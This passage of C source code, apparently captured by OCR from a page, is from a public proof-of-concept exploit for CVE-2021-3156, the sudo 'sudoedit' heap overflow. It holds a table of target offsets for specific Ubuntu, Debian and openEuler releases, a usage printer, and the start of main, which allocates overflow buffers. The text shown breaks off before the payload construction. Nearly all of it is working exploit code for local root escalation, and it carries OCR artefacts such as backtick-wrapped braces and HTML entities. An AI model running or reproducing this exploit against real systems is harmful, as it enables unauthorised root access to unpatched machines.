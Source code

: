 ```
        .null_stomp_len = 63,
        .lc_all_len     = 0x30
        // .lc_all_len     = 212
    `}`,
    `{`
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/local/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63,
        .lc_all_len     = 212
    `}`,
    `{`
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60,
        .lc_all_len     = 214
    `}`,
    `{`
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "openEuler release 20.03 (LTS) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 0x53,
        .smash_len_b    = 0x54,
        .null_stomp_len = 0x185,
        .lc_all_len     = 0xa0
        // .lc_all_len     = 212
    `}`,
`}`;

void usage(char *prog) `{`
    printf("  usage: %s &lt;target&gt;\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i &lt; sizeof(targets) / sizeof(target_t); i++) `{`
        printf("    %d) %s\n", i, targets[i].target_name);
    `}`
    printf("  ------------------------------------------------------------\n");
    printf("\n");
`}`

int main(int argc, char *argv[]) `{`
    printf("\n** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;\n\n");

    if (argc != 2) `{`
        usage(argv[0]);
        return -1;
    `}`

    int target_idx = atoi(argv[1]);

    if (target_idx &lt; 0 || target_idx &gt;= (sizeof(targets) / sizeof(target_t))) `{`
        fprintf(stderr, "invalid target index\n");
        return -1;
    `}`

    target_t *target = &amp;targets[ target_idx ];

    printf("using target: '%s'\n", target-&gt;target_name);

    char *smash_a = calloc(target-&gt;smash_len_a + 2, 1);
```